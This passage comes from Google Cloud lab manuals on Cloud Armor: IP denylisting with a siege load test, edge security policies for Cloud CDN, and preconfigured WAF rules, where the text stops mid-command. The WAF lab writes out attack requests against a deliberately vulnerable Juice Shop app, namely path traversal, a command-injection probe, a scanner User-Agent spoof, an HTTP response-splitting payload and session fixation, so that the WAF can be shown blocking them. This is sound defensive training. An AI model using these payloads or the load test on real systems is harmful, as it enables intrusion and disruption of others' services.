1. Wait for the policy to be created before moving to the next step.

Click *Check my progress* to verify the objective.

Denylist the siege-vm


Check my progress


#### Verify the security policy

Verify that the **siege-vm** cannot access the Application Load Balancer.

1. Return to the **SSH** terminal of **siege-vm**.
2. To access the load balancer, run the following:

```
curl http://$LB_IP
```

Copied!

The output should look like this:

```
<!doctype html><meta charset="utf-8"><meta name=viewport content="width=device-width, initial-scale=1"><title>403</title>403 Forbidden
```

**Note:** It might take a couple of minutes for the security policy to take effect. If you are able to access the backends, keep trying until you get the **403 Forbidden error**.

1. Open a new tab in your browser and navigate to `http://[LB_IP_v4]`. Make sure to replace `[LB_IP_v4]` with the IPv4 address of the load balancer.

**Note:** You can access the Application Load Balancer from your browser because of the default rule to **allow** traffic; however, you cannot access it from the **siege-vm** because of the **deny** rule that you implemented.

1. Back in the SSH terminal of siege-vm, to simulate a load, run the following command:

```
siege -c 150 -t120s http://$LB_IP
```

Copied!

The command will not generate any output.

Explore the security policy logs to determine if this traffic is also blocked.

1. In the console, navigate to **Navigation menu** > **Network Security** > **Cloud Armor Policies**.
2. Click **denylist-siege**.
3. Click **Logs**.
4. Click **View policy logs**.
5. On the Logging page, make sure to clear all the text in the **Query preview**. Select resource to **Application Load Balancer** > **http-lb-forwarding-rule** > **http-lb** then click **Apply**.
6. Now click **Run Query**.
7. Expand a log entry in **Query results**.
8. Expand **httpRequest**.

The request should be from the **siege-vm** IP address. If not, expand another log entry.

1. Expand **jsonPayload**.
2. Expand **enforcedSecurityPolicy**.
3. Notice that the **configuredAction** is to `DENY` with the **name** `denylist-siege`.


Cloud Armor security policies create logs that can be explored to determine when traffic is denied and when it is allowed, along with the source of the traffic.

### Congratulations!

You configured an Application Load Balancer with backends in `Region 1` and `Region 2`. Then, you stress tested the Load Balancer with a VM and denylisted the IP address of that VM with Cloud Armor. You were able to explore the security policy logs to identify why the traffic was blocked.


## LAB - Defending Edge Cache with Cloud Armor

### Overview

[Google Cloud Armor](https://cloud.google.com/armor) [edge security policies](https://cloud.google.com/armor/docs/security-policy-overview#edge-policies) allow you to restrict access to cached objects on [Cloud CDN](https://cloud.google.com/cdn) (Content Delivery Network) and Cloud Storage. Edge security policies are deployed and enforced at the outermost perimeter of Google's network, upstream of where the Cloud CDN cache resides. Reasons to do this include ensuring that your users do not access objects in storage buckets from restricted geographies, or ensuring that your media distribution is filtering on the geographies that you have a license to do so.

In this lab you create a Google Cloud Storage bucket, upload an image to it, bind it to a load balancer, and then enable Cloud CDN and Cloud Armor edge security policies on it.

#### What you'll learn

In this lab, you learn how to:

- Set up a Cloud Storage Bucket with cacheable content
- Create an edge security policy to protect the content
- Validate that the edge security policy is working as expected

### Setup and requirements

#### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources are made available to you.

This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).

**Note:** Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.

- Time to complete the lab—remember, once you start, you cannot pause a lab.

**Note:** Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.

#### How to start your lab and sign in to the Google Cloud console

1. Click the **Start Lab** button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:

   - The Open Google Cloud console button
   - Time remaining
   - The temporary credentials that you must use for this lab
   - Other information, if needed, to step through this lab

2. Click **Open Google Cloud console** (or right-click and select **Open Link in Incognito Window** if you are running the Chrome browser).

   The lab spins up resources, and then opens another tab that shows the Sign in page.

   ***Tip:\*** Arrange the tabs in separate windows, side-by-side.

   **Note:** If you see the **Choose an account** dialog, click **Use Another Account**.

3. If necessary, copy the **Username** below and paste it into the **Sign in** dialog.

   ```
   "Username"
   ```

   Copied!

   You can also find the Username in the Lab Details pane.

4. Click **Next**.

5. Copy the **Password** below and paste it into the **Welcome** dialog.

   ```
   "Password"
   ```

   Copied!

   You can also find the Password in the Lab Details pane.

6. Click **Next**.

   **Important:** You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.

   **Note:** Using your own Google Cloud account for this lab may incur extra charges.

7. Click through the subsequent pages:

   - Accept the terms and conditions.
   - Do not add recovery options or two-factor authentication (because this is a temporary account).
   - Do not sign up for free trials.

After a few moments, the Google Cloud console opens in this tab.

**Note:** To access Google Cloud products and services, click the **Navigation menu** or type the service or product name in the **Search** field. 

#### Before you begin

- In Cloud Shell, set your Project ID and create an environment variable for it:

```
export PROJECT_ID=$(gcloud config get-value project)
echo $PROJECT_ID
gcloud config set project $PROJECT_ID
```

Copied!

### Task 1. Create a Cloud Storage bucket and upload an object

The Cloud Storage bucket will be the origin source for Cloud CDN.

1. In the console, go to **Navigation menu ()** > **Cloud Storage** > **Buckets**.
2. To create a new Cloud Storage bucket, click **CREATE**.
3. Set the bucket name as `Bucket Name`
4. Click **Continue**.
5. For **Location type**, select `Region`, and choose `Bucket Region`
6. Click **Continue**.
7. The default storage class for your bucket is `Standard`. Click **Continue**.
8. Uncheck `Enforce public access prevention on this bucket` checkbox under **Prevent public access**.
9. Choose **Fine-grained** under **Access Control**.
10. Click **Continue**.
11. Click **Create**.

That's it — you've just created a Cloud Storage bucket!

#### Upload an Object to the bucket

Now upload an object into the bucket, which you will use later. By default, Cloud Storage buckets are private. As part of this lab, you will make the object available to the Internet.

1. Run the following command in Cloud Shell, to download an image to Cloud Shell. A Google image from the Google homepage is used for this lab.

```
wget --output-document google.png https://www.google.com/images/branding/googlelogo/1x/googlelogo_color_272x92dp.png
```

Copied!

1. Use the `gsutil cp` command to upload the image from the Cloud Shell to the bucket you created:

```
gsutil cp google.png gs://Bucket Name
```

Copied!

1. Remove the downloaded image from Cloud Shell:

```
rm google.png
```

Copied!

1. Locate the object you have uploaded to the bucket by navigating to **Cloud Storage > Buckets > `Bucket Name`**.
2. Now, click on the three dots on the right side of the object you uploaded and click **Edit access**.
3. Click on **Add Entry** and set the entity as **Public** from the drop-down list.
4. Click **Save**.


Click **Check my progress** to verify the objective.

Create a Cloud Storage Bucket and upload an object


Check my progress


### Task 2. Create a Load Balancer

Cloud CDN and Cloud Armor are components that can be tied to Google's global [Cloud Load Balancing](https://cloud.google.com/load-balancing). In this section, you create an HTTP Load balancer.

1. In the **Navigation menu** (), click **View All Products > Network services** > **Load Balancing**.
2. Click **+CREATE LOAD BALANCER**.
3. Under Type of **load balancer**, select **Application Load Balancer (HTTP/HTTPS)** and click **NEXT**.
4. Under **Public facing or internal**, select **Public facing (external)** and click **NEXT**.
5. For **Global or single region deployment**, select **Best for global workloads** and click **NEXT**.
6. For **Load balancer generation**, select **Global external Application Load Balancer** and click **NEXT**.
7. Click **CONFIGURE** button.
8. Name the load balancer as `edge-cache-lb`.

#### Create frontend configuration

To create the frontend configuration:

1. Click on **Frontend configuration**.
2. For the frontend configuration use HTTP (though HTTPS also works if you have a certificate) and an ephemeral IP address and ensure that you have selected the premium tier network. This is by default.
3. Click **Done**.


#### Create backend configuration

To create the backend configuration:

1. Click on **Backend configuration**.
2. For **Backend services & backend buckets**, click **Create a backend bucket**.
3. Set the **Backend bucket name** to `lb-backend-bucket`.
4. In the next field, select the Cloud Storage bucket created earlier by clicking the **Browse** button.
5. Leave all other values at their defaults.
6. Click **Create**.

#### Create host and path rules

To create host and path rules:

1. Click on **Routing rules** on the left.
2. Select **simple host and path rule** under Mode to send any request to the bucket. This is the default option.

#### Review and create the HTTP Load Balancer

To review and create the HTTP Load Balancer:

1. Click on **Review and finalize**.
2. Review the **Backend services** and **Frontend**.
3. Click on **Create**.

#### Get Load Balancer IP

To get the Load Balancer IP from the console:

- Click the load balancer name in the list of load balancers for the project. Note the IPv4 address of the load balancer for the next task. Refer to it as `[LOAD_BALANCER_IP]`.


#### Query the Load Balancer

After a couple minutes, query the load balancer for the object you uploaded. You will need the load balancer IP address and the name of the image.

1. Run the following from CloudShell and replace the LOAD_BALANCER_IP with the IPv4 address of the load balancer:

```
curl -svo /dev/null http://LOAD_BALANCER_IP/google.png
```

Copied!

**Note:** It might take up to 5 minutes to access the HTTP Load Balancer.

**Output:**

```
student-cloudshell% curl -svo /dev/null http://34.98.81.123/google.png
*   Trying 34.98.81.123...
* TCP_NODELAY set
* Connected to 34.98.81.123 (34.98.81.123) port 80 (#0)
> GET /google.png HTTP/1.1
> Host: YOUR_IP
> User-Agent: curl/7.64.1
> Accept: */*
>
< HTTP/1.1 200 OK
< X-GUploader-UploadID: ADPycdtoILI76KVsvBvdVGvSfzaxys1m3zYqCepBrmJxAI48ni24cWCRIdNu-53PX3DS6iycxp6xwFbMpwtcHHZQUQmEBxAgng
< Expires: Mon, 13 Dec 2021 22:58:26 GMT
< Date: Mon, 13 Dec 2021 21:58:26 GMT
< Cache-Control: public, max-age=3600
< Last-Modified: Mon, 13 Dec 2021 21:45:57 GMT
< ETag: "8f9327db2597fa57d2f42b4a6c5a9855"
< x-goog-generation: 1639431957957903
< x-goog-metageneration: 2
< x-goog-stored-content-encoding: identity
< x-goog-stored-content-length: 5969
< Content-Type: image/png
< x-goog-hash: crc32c=TeiHTA==
< x-goog-hash: md5=j5Mn2yWX+lfS9CtKbFqYVQ==
< x-goog-storage-class: STANDARD
< Accept-Ranges: bytes
< Content-Length: 5969
< Server: UploadServer
```

1. Run a few queries with this command:

```
for i in `seq 1 50`; do curl http://LOAD_BALANCER_IP/google.png; done
```

Copied!

#### Confirm content served by Cloud CDN

- Validate that your content is being served from the CDN via CDN or Load Balancing Monitoring by navigating to **Network Services > Cloud CDN**.


You should be able to get close to a 100% hit ratio.

Click **Check my progress** to verify the objective.

Create a Load Balancer


Check my progress


### Task 3. Delete the object from Cloud Storage bucket

Now that the cache is populated, delete the object from the bucket. This will reinfore that you are applying the policy to the cache and not the backend.

1. In the **Navigation menu** (), click **Cloud Storage > Buckets > `Bucket Name`**.
2. Select the object and delete it by clicking the **Delete** button at the top.
3. Click **Delete** at the prompt.

Click **Check my progress** to verify the objective.

Delete the object from Cloud Storage bucket


Check my progress


### Task 4. Create an edge security policy

Cloud Armor policies are substantiated outside of the HTTP Load Balancer. Once the Cloud Armor policy is deployed, you can then associate it with one or more HTTP Load Balancer Backend Service or Bucket resources, referred to as a Target.

1. In the **Navigation menu** (), click **View All Products > Network Security > Cloud Armor policies** and click **Create Policy**.

1. Set the following values, leave all other values at their defaults and click **Next Step**:

| Property            | Value (type value or select option as specified) |
| :------------------ | :----------------------------------------------- |
| Name                | edge-security-policy                             |
| Policy type         | Edge security policy                             |
| Default rule action | Deny                                             |

1. In **Apply policy to targets** section, click **Add Target** and set the following values:

| Property                | Value                                               |
| :---------------------- | :-------------------------------------------------- |
| Type 1                  | Backend bucket (external application load balancer) |
| Backend Bucket target 1 | lb-backend-bucket                                   |

1. Click **Done**.
2. Click **Create Policy**.

#### Validate Edge Security Policy

Now that you've created an edge security policy in front of the back-end bucket, validate that it works as expected.

##### Check the security policy

After a few minutes have passed, you can check that the Cloud Armor policy is running.

From the command line, run the following command, which gives you a 403:

```
curl -svo /dev/null http://LOAD_BALANCER_IP/google.png
```

Copied!

A 403 error occurs when you do not have permission to accessing a web page or something on a web server.

**Output:**

```
curl -svo /dev/null http://34.98.81.123/google.png
*   Trying 34.98.81.123...
* TCP_NODELAY set
* Connected to 34.98.81.123 (34.98.81.123) port 80 (#0)
> GET /google.png HTTP/1.1
> Host: YOUR_IP
> User-Agent: curl/7.64.1
> Accept: */*
>
< HTTP/1.1 403 Forbidden
< X-GUploader-UploadID: ADPycdtS6FtJOGIsiWYDrAAE8VFeQuNutcvbGoQe2t8EZxsuspVtmCjyiTv_P3CNktroHMOGFXkTCfG-Jj-rUO60ZGPpEbpqcw
< Content-Type: application/xml; charset=UTF-8
< Content-Length: 111
< Date: Mon, 13 Dec 2021 23:09:35 GMT
< Expires: Mon, 13 Dec 2021 23:09:35 GMT
< Cache-Control: private, max-age=0
< Server: UploadServer
```

##### Investigate the logs

Next, you check the logs to see the enforced edge security policy.

1. In the **Navigation menu** (), click **View All Products > Observability > Logging > Logs Explorer**.
2. Enter the below snippet into the query box and click **Run Query**:

```
resource.type:(http_load_balancer) AND jsonPayload.@type="type.googleapis.com/google.cloud.loadbalancing.type.LoadBalancerLogEntry" AND severity>=WARNING
```

Copied!

1. Note the `403 response` and the enforced security policy.


Click **Check my progress** to verify the objective.

Create edge security policy for cloud Armor


Check my progress


#### Remove the security policy

To prove that the object is getting delivered from the CDN cache, remove the Cloud Armor security policy and query the object. The origin object has been removed from Cloud Storage, thus illustrating that the object is getting served from the edge cache.

1. In the **Navigation menu** (), click **View All Products > Network Security > Cloud Armor policies > edge-security-policy > Targets**.
2. Select the `lb-backend-bucket` target and click **Remove** to remove the target bucket. Confirm **Remove**.

1. Wait a few minutes, then send another `curl` to the resource in the Cloud Storage bucket:

```
curl -svo /dev/null http://LOAD_BALANCER_IP/google.png
```

Copied!

You get a `200` response this time. The web page is acting as it is supposed to.

**Output:**

```
student-cloudshell% curl -svo /dev/null http://34.98.81.123/google.png

 Trying 34.98.81.123...
 TCP_NODELAY set
 Connected to 34.98.81.123 (34.98.81.123) port 80 (#0)
 GET /google.png HTTP/1.1
 Host: YOUR_IP
 User-Agent: curl/7.64.1
 Accept: */*

  HTTP/1.1 200 OK
  X-GUploader-UploadID: ADPycdtI7f49P3MSuZSZ8vl6RwfwmnIDJ59EeSKp7UPvLPawdaiRHXiNWLtseQTxUxceWOvSLvpYmT3pWVkV4qeIP7M
  Date: Mon, 13 Dec 2021 23:06:46 GMT
  Last-Modified: Mon, 13 Dec 2021 21:45:57 GMT
  ETag: "8f9327db2597fa57d2f42b4a6c5a9855"
  x-goog-generation: 1639431957957903
  x-goog-metageneration: 2
  x-goog-stored-content-encoding: identity
  x-goog-stored-content-length: 5969
  Content-Type: image/png
  x-goog-hash: crc32c=TeiHTA==
  x-goog-hash: md5=j5Mn2yWX+lfS9CtKbFqYVQ==
  x-goog-storage-class: STANDARD
  Accept-Ranges: bytes
  Content-Length: 5969
  Server: UploadServer
  Age: 1621
  Cache-Control: public,max-age=3600
 { [775 bytes data]
 Connection #0 to host 34.98.81.123 left intact
 Closing connection 0
```

Try it a couple of times and see if you get a 403 status code.

### Congratulations!

You have successfully created a Cloud Storage bucket, uploaded an image to it, bound it to a load balancer, and then enabled Cloud CDN and edge security policies on it.

**Manual Last Updated December 10, 2024**

**Lab Last Tested December 10, 2024**

## LAB - Cloud Armor Preconfigured WAF Rules

## Overview

Google Cloud Armor is Google's enterprise edge network security solution providing DDOS protection, WAF rule enforcement, and adaptive manageability at scale.

Cloud Armor has extended the preconfigured WAF rule sets to mitigate against the [OWASP Top 10](https://owasp.org/www-project-top-ten/) web application security vulnerabilities. The rule sets are based on the [OWASP Modsecurity core rule set](https://github.com/coreruleset/coreruleset/) version 3.0.2 to protect against some of the most common web application security risks including local file inclusion (lfi), remote file inclusion (rfi), remote code execution (rce), and many more.

In this lab, you learn how to mitigate some of the common vulnerabilities by using Google Cloud Armor WAF rules.

### What you'll learn

In this lab, you learn how to:

- Set up an Instance Group and a Global Load Balancer to support a service
- Configure Cloud Armor security policies with preconfigured WAF rules to protect against lfi, rce, scanners, protocol attacks, and session fixation
- Validate that Cloud Armor mitigated an attack by observing logs


The [OWASP Juice Shop application](https://owasp.org/www-project-juice-shop/) is useful for security training and awareness, because it contains instances of each of the OWASP Top 10 security vulnerabilities—by design. An attacker can exploit it for testing purposes. In this lab, you use it to demonstrate some application attacks followed by protecting the application with Cloud Armor WAF rules. The application is fronted by a Google Cloud Load Balancer, onto which the Cloud Armor security policy and rules are be applied. It is served on the public internet thus reachable from almost anywhere and protected using Cloud Armor and VPC firewall rules.

## Setup and requirements

### Before you click the Start Lab button

Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click **Start Lab**, shows how long Google Cloud resources are made available to you.

This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.

To complete this lab, you need:

- Access to a standard internet browser (Chrome browser recommended).

**Note:** Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.

- Time to complete the lab—remember, once you start, you cannot pause a lab.

**Note:** Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.

### How to start your lab and sign in to the Google Cloud console

1. Click the **Start Lab** button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:

   - The Open Google Cloud console button
   - Time remaining
   - The temporary credentials that you must use for this lab
   - Other information, if needed, to step through this lab

2. Click **Open Google Cloud console** (or right-click and select **Open Link in Incognito Window** if you are running the Chrome browser).

   The lab spins up resources, and then opens another tab that shows the Sign in page.

   ***Tip:\*** Arrange the tabs in separate windows, side-by-side.

   **Note:** If you see the **Choose an account** dialog, click **Use Another Account**.

3. If necessary, copy the **Username** below and paste it into the **Sign in** dialog.

   ```
   "Username"
   ```

   Copied!

   You can also find the Username in the Lab Details pane.

4. Click **Next**.

5. Copy the **Password** below and paste it into the **Welcome** dialog.

   ```
   "Password"
   ```

   Copied!

   You can also find the Password in the Lab Details pane.

6. Click **Next**.

   **Important:** You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.

   **Note:** Using your own Google Cloud account for this lab may incur extra charges.

7. Click through the subsequent pages:

   - Accept the terms and conditions.
   - Do not add recovery options or two-factor authentication (because this is a temporary account).
   - Do not sign up for free trials.

After a few moments, the Google Cloud console opens in this tab.

**Note:** To access Google Cloud products and services, click the **Navigation menu** or type the service or product name in the **Search** field. 

### Activate Cloud Shell

Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud. Cloud Shell provides command-line access to your Google Cloud resources.

1. Click **Activate Cloud Shell**  at the top of the Google Cloud console.
2. Click through the following windows:
   - Continue through the Cloud Shell information window.
   - Authorize Cloud Shell to use your credentials to make Google Cloud API calls.

When you are connected, you are already authenticated, and the project is set to your **Project_ID**, `PROJECT_ID`. The output contains a line that declares the **Project_ID** for this session:

```
Your Cloud Platform project in this session is set to "PROJECT_ID"
```

`gcloud` is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.

1. (Optional) You can list the active account name with this command:

```
gcloud auth list
```

Copied!

1. Click **Authorize**.

**Output:**

```
ACTIVE: *
ACCOUNT: "ACCOUNT"

To set the active account, run:
    $ gcloud config set account `ACCOUNT`
```

1. (Optional) You can list the project ID with this command:

```
gcloud config list project
```

Copied!

**Output:**

```
[core]
project = "PROJECT_ID"
```

**Note:** For full documentation of `gcloud`, in Google Cloud, refer to [the gcloud CLI overview guide](https://cloud.google.com/sdk/gcloud).

### Before you begin

- In Cloud Shell, set up your project ID:

```
gcloud config list project
export PROJECT_ID=$(gcloud config get-value project)
echo $PROJECT_ID
gcloud config set project $PROJECT_ID
```

Copied!

## Task 1. Create the VPC network

- In Cloud Shell, enter the following command to create a VPC network:

```
gcloud compute networks create Network Name --subnet-mode custom
```

Copied!

```
Created
NAME        SUBNET_MODE  BGP_ROUTING_MODE
Network Name  CUSTOM       REGIONAL
```

### Create a subnet

- In Cloud Shell, enter the following command to create a subnet:

```
gcloud compute networks subnets create Subnet Name \
        --network Network Name --range 10.0.0.0/24 --region Region
```

Copied!

```
Created
NAME           REGION       NETWORK       RANGE
Subnet Name Region  Network Name    10.0.0.0/24
```

### Create VPC firewall rules

After creating the VPC and subnet, set up a few firewall rules.

- The first firewall rule named `allow-js-site` allows all IPs to access the external IP of the test application's website on port `3000`.
- The second firewall rule named `allow-health-check` allows health-checks from source IP of the load balancers.

1. In Cloud Shell, enter the following command to create a firewall rule to allow all IPs to access the application:

```
gcloud compute firewall-rules create Firewall Name --allow tcp:3000 --network Network Name
```

Copied!

Output:

```
Creating firewall...done.
NAME           NETWORK     DIRECTION  PRIORITY  ALLOW     DENY  DISABLED
Firewall Name Network Name INGRESS    1000      tcp:3000        False
```

1. In Cloud Shell, enter the following command to create firewall rule to allow health-checks from the Google health-check ranges:

```
gcloud compute firewall-rules create Firewall Name1 \
    --network=Network Name \
    --action=allow \
    --direction=ingress \
    --source-ranges=130.211.0.0/22,35.191.0.0/16 \
    --target-tags=allow-healthcheck \
    --rules=tcp
```

Copied!

Output:

```
Creating firewall...done.
NAME                NETWORK     DIRECTION  PRIORITY  ALLOW  DENY  DISABLED
Firewall_Name1  Network Name  INGRESS    1000      tcp          False
```

Click **Check my progress** to verify the objective.

Create the VPC network


Check my progress


## Task 2. Set up the test application

Create the test application, in this case, the OWASP Juice Shop web server. When you create the compute instance, you use a container image to ensure the server has the appropriate services. You deploy this server in the `Zone` and has a network tag that allows health checks.

### Create the OWASP Juice Shop application

- Use the open source well-known OWASP Juice Shop application to serve as the vulnerable application. You can also use this application to do OWASP security challenges through the [OWASP website](https://owasp.org/www-project-juice-shop/).

```
gcloud compute instances create-with-container vm_instance --container-image bkimminich/juice-shop \
     --network Network Name \
     --subnet Subnet Name \
     --private-network-ip=10.0.0.3 \
     --machine-type n1-standard-2 \
     --zone Zone \
     --tags allow-healthcheck
```

Copied!

Output:

```
NAME                  ZONE           MACHINE_TYPE   PREEMPTIBLE  
vm_instance  Zone  n1-standard-2               

INTERNAL_IP  EXTERNAL_IP     STATUS
10.0.0.3     <public ip="">     RUNNING
</public>
```

Click **Check my progress** to verify the objective.

Set up the test application


Check my progress


### Set up the Cloud load balancer component: instance group

1. In Cloud Shell, enter the following command to create the unmanaged instance group:

```
gcloud compute instance-groups unmanaged create Instance Group \
    --zone=Zone
```

Copied!

Output:

```
NAME        LOCATION       SCOPE  NETWORK  MANAGED  INSTANCES
Instance Group  Zone  zone                     0
```

1. Add the Juice Shop Google Compute Engine (GCE) instance to the unmanaged instance group:

```
gcloud compute instance-groups unmanaged add-instances Instance Group \
    --zone=Zone \
    --instances=VM Instance
```

Copied!

Output:

```
Updated [https://www.googleapis.com/compute/v1/projects/<project name="">/zones/Zone/instanceGroups/Instance_Group].
</project>
```

1. Set the named port to that of the Juice Shop application:

```
gcloud compute instance-groups unmanaged set-named-ports \
Instance Group \
   --named-ports=http:3000 \
   --zone=Zone
```

Copied!

Output:

```
Updated [https://www.googleapis.com/compute/v1/projects/<project name="">/zones/Zone/instanceGroups/Instance Group].
</project>
```

Click **Check my progress** to verify the objective.

Set up the Cloud load balancer component- instance group


Check my progress


### Set up the Cloud load balancer component: health check

Now that you've created the unmanaged instance group, create a health check, backend service, URL map, target proxy, and forwarding rule.

- In Cloud Shell, enter the following command to create the health-check for the Juice Shop service port:

```
gcloud compute health-checks create tcp tcp-port-3000 \
        --port 3000
```

Copied!

Output:

```
Created
NAME           PROTOCOL
tcp-port-3000  TCP
```

### Set up the Cloud load balancer component: backend service

1. In Cloud Shell, enter the following command to create the backend service parameters:

```
gcloud compute backend-services create juice-shop-backend \
        --protocol HTTP \
        --port-name http \
        --health-checks tcp-port-3000 \
        --enable-logging \
        --global
```

Copied!

Output:

```
NAME                BACKENDS  PROTOCOL
juice-shop-backend            HTTP
```

1. Add the Juice Shop instance group to the backend service:

```
 gcloud compute backend-services add-backend juice-shop-backend \
        --instance-group=Instance Group \
        --instance-group-zone=Zone \
        --global
```

Copied!

Output:

```
Updated [https://www.googleapis.com/compute/v1/projects/cythom-host1/global/backendServices/juice-shop-backend].
```

### Set up the Cloud load balancer component: URL map

- In Cloud Shell, enter the following command to create the URL map to send incoming requests to the backend:

```
gcloud compute url-maps create juice-shop-loadbalancer \
        --default-service juice-shop-backend
```

Copied!

Output:

```
NAME                     DEFAULT_SERVICE
juice-shop-loadbalancer  backendServices/juice-shop-backend
```

### Set up the Cloud load balancer component: target proxy

- In Cloud Shell, enter the following command to create the Target Proxy to route incoming requests the URL map:

```
gcloud compute target-http-proxies create juice-shop-proxy \
        --url-map juice-shop-loadbalancer
```

Copied!

Output:

```
NAME              URL_MAP
juice-shop-proxy  juice-shop-loadbalancer
```

### Set up the Cloud load balancer component: forwarding rule

- In Cloud Shell, enter the following command to create the forwarding rule for the Load Balancer:

```
gcloud compute forwarding-rules create juice-shop-rule \
        --global \
        --target-http-proxy=juice-shop-proxy \
        --ports=80
```

Copied!

Output:

```
Created [https://www.googleapis.com/compute/v1/projects/cythom-host1/global/forwardingRules/juice-shop-rule].
```

### Verify the Juice Shop service is online

1. From Cloud Shell:

```
PUBLIC_SVC_IP="$(gcloud compute forwarding-rules describe juice-shop-rule  --global --format="value(IPAddress)")"
echo $PUBLIC_SVC_IP
```

Copied!

Output:

```
<public VIP of service>
```

Wait a few minutes before continuing on, else you may retrieve a HTTP/1.1 404 Not Found response.

1. From Cloud Shell:

```
curl -Ii http://$PUBLIC_SVC_IP
```

Copied!

Output:

```
HTTP/1.1 200 OK
<...>
```

You can also go to the browser to view the Juice Shop!


You're now ready to explore the Juice Shop vulnerabilities and protect against them with Cloud Armor WAF rule sets.

Click **Check my progress** to verify the objective.

Set up the Cloud load balancer component- health check


Check my progress


## Task 3. Demonstrate known vulnerabilities

In this lab, you demonstrate the states before and after Cloud Armor WAF rules are propagated in condensed steps.

### Observe an LFI vulnerability: path traversal

Local File Inclusion is the process of observing files present on the server by exploiting lack of input validation in the request to potentially expose sensitive data. The following shows a path traversal is possible. In your browser or with curl, observe an existing path served by the application.

1. From Cloud Shell:

```
curl -Ii http://$PUBLIC_SVC_IP/ftp
```

Copied!

Output:

```
HTTP/1.1 200 OK
<...>
```

Observe that path traversal works too.

1. From Cloud Shell:

```
curl -Ii http://$PUBLIC_SVC_IP/ftp/../
```

Copied!

Output:

```
HTTP/1.1 200 OK
<...>
```

### Observe an RCE vulnerability

Remote Code Execution includes various UNIX and Windows command injection scenarios allowing attackers to execute OS commands usually restricted to privileged users. The following shows a simple `ls` command execution passed in.

- From Cloud Shell:

```
curl -Ii http://$PUBLIC_SVC_IP/ftp?doc=/bin/ls
```

Copied!

Output:

```
HTTP/1.1 200 OK
<...>
```

Remove the curl flags to observe the full output.

### Observe a well-known scanner's access

Both commercial and open source scan applications for various purposes, including to find vulnerabilities. These tools use well-known User-Agent and other Headers. Observe curl works with a well-known User-Agent Header.

- In Cloud Shell:

```
curl -Ii http://$PUBLIC_SVC_IP -H "User-Agent: blackwidow"
```

Copied!

Output:

```
HTTP/1.1 200 OK
<...>
```

### Observe a protocol attack: HTTP splitting

Some web applications use input from the user to generate the headers in the responses. If the application doesn't properly filter the input, an attacker can potentially poison the input parameter with the sequence `%0d%0a` (the CRLF sequence that is used to separate different lines).

The response could then be interpreted as two responses by anything that happens to parse it, like an intermediary proxy server, potentially serving false content in subsequent requests. Insert the sequence `%0d%0a` into the input parameter, which can lead to serving a misleading page.

- From Cloud Shell:

```
curl -Ii "http://$PUBLIC_SVC_IP/index.html?foo=advanced%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>"
```

Copied!

Output:

```
HTTP/1.1 200 OK
<...>
```

### Observe session fixation

- In Cloud Shell:

```
curl -Ii http://$PUBLIC_SVC_IP -H session_id=X
```

Copied!

Output:

```
HTTP/1.1 200 OK
<...>
```

## Task 4. Define Cloud Armor WAF rules

1. List the preconfigured WAF rules, using the following command in Cloud Shell:

```
gcloud compute security-policies list-preconfigured-expression-sets
```

Copied!

```
EXPRESSION_SET
Sqli-canary
RULE_ID
    owasp-crs-v030001-id942110-sqli
    owasp-crs-v030001-id942120-sqli
<...>
```

1. Create the Cloud Armor security policy using the following command in Cloud Shell:

```
gcloud compute security-policies create Policy Name \
    --description "Block with OWASP ModSecurity CRS"
```

Copied!

1. In Cloud Shell, update the security policy default rule.

**Note:** The default rule priority has a numerical value of 2147483647.

```
gcloud compute security-policies rules update 2147483647 \
    --security-policy Policy Name \
    --action "deny-403"
```

Copied!

1. Since the default rule is configured with action deny, you must allow access from your IP. Please find your public IP (curl, ipmonkey, whatismyip, etc):

```
MY_IP=$(curl ifconfig.me)
```

Copied!

1. Add the first rule to allow access from your IP (INSERT YOUR IP BELOW):

```
gcloud compute security-policies rules create 10000 \
    --security-policy Policy Name  \
    --description "allow traffic from my IP" \
    --src-ip-ranges "$MY_IP/32" \
    --action "allow"
```

Copied!

1. In Cloud Shell, update the security policy to block LFI attacks.

Apply the OWASP ModSecurity Core Rule Set that prevents path traversal for local file inclusions.

```
gcloud compute security-policies rules create 9000 \
    --security-policy Policy Name  \
    --description "block local file inclusion" \
     --expression "evaluatePreconfiguredExpr('lfi-stable')" \
    --action deny-403
```

Copied!

1. In Cloud Shell, update the security policy to block Remote Code Execution (rce).

Per the OWASP ModSecurity Core Rule Set, apply rules that look for rce, including command injection. Typical OS commands are detected and blocked.

```
gcloud compute security-policies rules create 9001 \
    --security-policy Policy Name  \
    --description "block rce attacks" \
     --expression "evaluatePreconfiguredExpr('rce-stable')" \
    --action deny-403
```

Copied!

1. Update the security policy to block security scanners.

Apply the OWASP ModSecurity Core Rule Set to block well-known security scanners, scripting HTTP clients, and web crawlers.

```
gcloud compute security-policies rules create 9002 \
    --security-policy Policy Name  \
    --description "block scanners" \
     --expression "evaluatePreconfiguredExpr('scannerdetection-stable')" \
    --action deny-403
```

Copied!

1. In Cloud Shell, update the security policy to block protocol attacks.

Per the OWASP ModSecurity Core Rule Set, apply rules that look for Carriage Return (CR) `%0d` and Linefeed (LF)`%0a` characters and other types of protocol attacks like HTTP Request Smuggling.

```
gcloud compute security-policies rules create 9003 \
    --security-policy Policy Name  \
    --description "block protocol attacks" \
